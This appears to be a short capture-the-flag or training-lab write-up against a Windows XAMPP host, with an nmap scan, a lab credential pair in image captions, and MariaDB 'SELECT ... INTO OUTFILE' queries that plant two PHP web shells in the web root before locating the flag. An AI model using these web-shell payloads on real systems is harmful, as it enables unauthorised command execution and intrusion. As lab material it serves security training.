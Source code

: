 # Assessment Easy

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

```
nmap 10.129.203.7 -p 21,25,80,443,587,3306,2289 -sC -sV -oN 10.129.203.7
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-29 03:57 EDT
Nmap scan report for 10.129.203.7
Host is up (0.19s latency).

PORT     STATE    SERVICE     VERSION
21/tcp   open     ftp
|_ssl-date: 2023-06-29T07:59:27+00:00; +1s from scanner time.
| fingerprint-strings: 
|   GenericLines: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     Command unknown, not supported or not allowed...
|     Command unknown, not supported or not allowed...
|   Help: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     214-The following commands are implemented
|     USER PASS ACCT QUIT PORT RETR
|     STOR DELE RNFR PWD CWD CDUP
|     NOOP TYPE MODE STRU
|     LIST NLST HELP FEAT UTF8 PASV
|     MDTM REST PBSZ PROT OPTS CCC
|     XCRC SIZE MFMT CLNT ABORT
|     HELP command successful
|   NULL: 
|_    220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
| ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
| Not valid before: 2022-04-21T19:27:17
|_Not valid after:  2032-04-18T19:27:17
25/tcp   open     smtp        hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open     http        Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
| http-title: Welcome to XAMPP
|_Requested resource was http://10.129.203.7/dashboard/
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
443/tcp  open     https       Core FTP HTTPS Server
|_http-server-header: Core FTP HTTPS Server
|_ssl-date: 2023-06-29T07:59:27+00:00; +1s from scanner time.
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
| Not valid before: 2022-04-21T19:27:17
|_Not valid after:  2032-04-18T19:27:17
587/tcp  open     smtp        hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
2289/tcp filtered dict-lookup
3306/tcp open     mysql       MySQL 5.5.5-10.4.24-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.24-MariaDB
|   Thread ID: 10
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, Support41Auth, LongColumnFlag, Speaks41ProtocolNew, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, IgnoreSigpipes, FoundRows, SupportsCompression, SupportsTransactions, SupportsLoadDataLocal, ODBCClient, InteractiveClient, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: [Rh4j;&L.>.jKy@o3LgA
|_  Auth Plugin Name: mysql_native_password
```

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption><p>fiona@inlanefreight.htb</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (47) (1).png" alt=""><figcaption><p>fiona@inlanefreight.htb:987654321</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

```
MariaDB [phpmyadmin]> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/xampp/htdocs/dashboard/webshell.php';
Query OK, 1 row affected (0.190 sec)
```



```
MariaDB [(none)]> SELECT "<?php if(isset($_REQUEST['cmd'])){ echo '<pre>'; $cmd = ($_REQUEST['cmd']); system($cmd); echo '</pre>'; die; }?>" INTO OUTFILE 'C:/xampp/htdocs/dashboard/webshell2.php';
Query OK, 1 row affected (0.190 sec)
```

<figure><img src="../../.gitbook/assets/image (5) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
dir /s /b C:\flag.txt
```

then type the flag file and get the flag.
